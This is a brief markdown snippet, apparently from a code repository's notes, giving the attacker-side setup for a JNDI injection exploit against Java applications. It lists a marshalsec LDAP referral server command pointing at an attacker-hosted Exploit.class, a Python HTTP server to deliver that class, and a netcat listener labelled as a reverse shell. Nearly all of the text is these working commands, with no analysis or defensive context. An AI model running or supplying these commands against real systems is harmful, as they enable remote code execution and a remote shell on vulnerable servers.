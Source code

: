 ### open ldap server
``java -cp marshalsec-0.0.3-SNAPSHOT-all.jar  marshalsec.jndi.LDAPRefServer http://10.236.152.193:18080/#Exploit 1389``
### open http server,   provide  Exploit.class download
python3 -m http.server 18080
### shell 反射
nc -lvvp 12306
